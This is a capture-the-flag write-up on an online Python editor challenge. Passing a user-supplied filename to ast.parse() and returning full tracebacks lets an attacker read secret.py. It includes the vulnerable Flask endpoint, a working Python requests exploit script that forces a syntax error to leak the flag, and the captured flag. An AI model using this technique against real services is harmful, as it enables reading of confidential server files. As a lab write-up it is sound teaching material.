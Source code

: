 # Python Syntax Checker - CTF Challenge Writeup

## Challenge Information
- **Name**: Online Python Editor
- **Points**: 50
- **Category**: Web
- **Solves**: 92
- **Solved by**: Trendo
- **Challenge URL**: http://python.ctf.theromanxpl0.it:7001/

![image](https://github.com/user-attachments/assets/7ef50601-6533-4dd0-8990-c2713a18e832)

## Challenge Description
*"If you're tired of fast and good-looking editors, try this. Now with extra crispiness!"*

The challenge presents a deliberately "not good-looking" online Python editor that performs syntax checking on user input. Behind the scenes, it uses Python's `ast.parse()` function to validate code. The goal is to extract a flag stored in a `secret.py` file on the server.

## Technical Analysis

### Application Architecture
The application consists of several key components:

1. **Frontend (`index.html`)**
   - Provides a web-based Python code editor
   - Uses CodeMirror for syntax highlighting
   - Implements debounced syntax checking

2. **Backend (`app.py`)**
   ```python
   @app.post("/check")
   def check():
       try:
           ast.parse(**request.json)
           return {"status": True, "error": None}
       except Exception:
           return {"status": False, "error": traceback.format_exc()}
   ```

3. **Target File (`secret.py`)**
   ```python
   def main():
       print("Here's the flag: ")
       print(FLAG)
       
   FLAG = "TRX{fake_flag_for_testing}"
   main()
   ```

### Vulnerability Analysis

1. **Unsafe Parameter Handling**
   - The application accepts a `filename` parameter in the JSON payload
   - No sanitization is performed on the filename
   - The `ast.parse()` function receives raw user input

2. **Information Disclosure**
   - Error messages include full traceback information
   - File contents are exposed in error contexts
   - No sanitization of error messages before sending to client

## Exploitation

### Exploit Method

The exploit leverages two key vulnerabilities:
1. Control over the `filename` parameter to target `secret.py`
2. Error message leakage that reveals file contents

### Exploit Script
```python
import requests

TARGET_URL = "http://localhost:3000/check"

# Payload crafted to match secret.py structure
payload = {
    "source": (
        "def main():\n"
        '    print("Here\'s the flag: ")\n'
        "    print(FLAG)\n\n"
        "FLAG = \"TRX{real_flag}\"\n"  
        "invalid syntax"  # Force error after flag declaration
    ),
    "filename": "secret.py"
}

response = requests.post(TARGET_URL, json=payload)
error = response.json().get("error", "")

# Extract flag from error context
if "FLAG =" in error:
    flag_line = [line for line in error.split('\n') if 'FLAG =' in line][0]
    flag = flag_line.split('"')[1]
    print(f"FLAG CAPTURED: {flag}")
else:
    print("Error context analysis failed. Full response:")
    print(error)
```

### Exploit Breakdown

1. **Payload Structure**
   - Mirrors the structure of `secret.py`
   - Includes a deliberate syntax error after the FLAG declaration
   - Uses proper string escaping to maintain valid syntax until the target line

2. **Error Triggering**
   - The syntax error is positioned to occur after the FLAG variable definition
   - This causes Python to include the surrounding context in the error message
   - The context includes the actual flag value from the server's `secret.py`

3. **Flag Extraction**
   - The script parses the error message for lines containing "FLAG ="
   - Extracts the flag value from between quotation marks
   - Handles potential parsing failures gracefully

![image](https://github.com/user-attachments/assets/02126559-331a-4ddf-9b2c-7c3aa7e280da)

## Flag
`TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`
